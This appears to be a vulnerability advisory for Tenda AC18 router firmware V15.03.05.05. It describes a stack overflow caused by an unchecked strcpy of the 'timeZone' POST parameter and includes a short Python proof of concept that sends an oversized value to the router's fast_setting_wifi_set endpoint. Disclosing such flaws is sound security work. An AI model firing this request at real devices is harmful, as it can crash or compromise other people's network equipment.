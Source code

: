 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `form_fast_setting_wifi_set` function. The `v1` variable receives the `timeZone` parameter from a POST request and is later assigned to the `v16` variable. Then v16 is assigned to `nptr` and `v7` by `sscanf`. However, since the user can control the input of  `timeZone`, the statement `strcpy(v8, v7);` can cause a buffer overflow. The user-provided  `timeZone` can exceed the capacity of the `v8` array, triggering this security vulnerability.

![image-20240308203931092](form_fast_setting_wifi_set_timeZone_v7.assets/image-20240308203931092.png)

![image-20240308203913642](form_fast_setting_wifi_set_timeZone_v7.assets/image-20240308203913642.png)

## POC

```python
import requests
ip = '192.168.84.101'
url = f'http://{ip}/goform/fast_setting_wifi_set'

payload = {

    'timeZone': 'a' + ":" + "aaa" * 1000
}

r = requests.post(url=url, data=payload)
print(r.content)
```

![image-20240308203956288](form_fast_setting_wifi_set_timeZone_v7.assets/image-20240308203956288.png)
